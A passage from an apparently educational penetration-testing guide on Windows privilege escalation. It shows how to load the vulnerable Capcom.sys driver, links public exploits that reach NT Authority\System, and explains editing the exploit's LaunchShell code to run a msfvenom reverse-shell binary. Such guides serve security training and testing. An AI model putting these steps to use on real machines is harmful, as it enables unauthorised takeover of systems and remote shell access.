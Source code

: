 ```c
		std::cout << "[+] Driver unloaded from Kernel..\n";
		std::cout << "[+] Press [ENTER] to exit\n";
		getchar();
	}

    return 0;
}
```

Once the above code is compiled and executed, we can see that our malicious `Capcom.sys` driver gets loaded onto the victim system:

![](../../../.gitbook/assets/a11.png)

Download: [Capcom.sys - 10KB](https://firebasestorage.googleapis.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LTyWsUdKa48PyMRyZ4I%2F-LTyZ9IkoofuWRxlNpUG%2FCapcom.sys?alt=media\&token=e4417fb3-f2fd-42ef-9000-d410bc6ceb54)

**No it's time to abuse the loaded driver to execute arbitrary code.**

You can download exploits from [https://github.com/tandasat/ExploitCapcom](https://github.com/tandasat/ExploitCapcom) and [https://github.com/zerosum0x0/puppetstrings](https://github.com/zerosum0x0/puppetstrings) and execute it on the system to elevate our privileges to `NT Authority\System`:

![](../../../.gitbook/assets/a12.png)

### No Gui

If we **do not have GUI access** to the target, we will have to modify the **`ExploitCapcom.cpp`** code before compiling. Here we can edit line 292 and replace `C:\\Windows\\system32\\cmd.exe"` with, say, a reverse shell binary created with `msfvenom`, for example: `c:\ProgramData\revshell.exe`.

Code: c

```c
// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```
